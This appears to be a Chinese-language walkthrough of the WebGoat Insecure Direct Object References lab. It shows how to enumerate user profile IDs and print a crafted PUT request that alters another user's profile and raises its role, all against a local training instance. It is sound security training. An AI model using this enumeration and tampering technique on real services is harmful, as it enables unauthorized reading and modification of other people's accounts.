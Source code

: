 # Insecure Direct Object References

这里主要是介绍了 RestFul 框架在的知识和权限配置不合适的时候可能产生的安全问题。

## Task 2

就是按照说明登录一下即可。

## Task 3

要使用 Chrome 的开发者工具，查看隐藏的属性值 role 和 userId 。

## Task 4

这里是根据 Restful 的格式猜测个人属性可能的 url 。答案是：

```
http://127.0.0.1:8080/WebGoat/IDOR/profile/<userId>
```

## Task 5

### step1 读取他人数据
第一步给出了 Tom 的 userId 是 2342384。同理，通过猜测 id 来查找其他人的 profile 。
方法是 Get 。找到一个 userId 是 2342388 的用户。

### step2 修改他人数据

首先先将 Option 方法获取可用的 Method。 发现可用 PUT。
而后构造 Restful 的 payload。当格式是 raw 或者 xml 的时候，返回错误。使用 Json 负载是：

```
{"role":3, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388}
```

提示权限不够，将 role 修改为 1 即可。

最终的 request 是：

```
PUT /WebGoat/IDOR/profile/2342388 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json
cache-control: no-cache
Postman-Token: 0dbc9361-5779-45ea-85c2-806edffd6e1e
{"role":1, "color":"red", "size":"large", "name":"Buffalo Bill", "userId":2342388
```
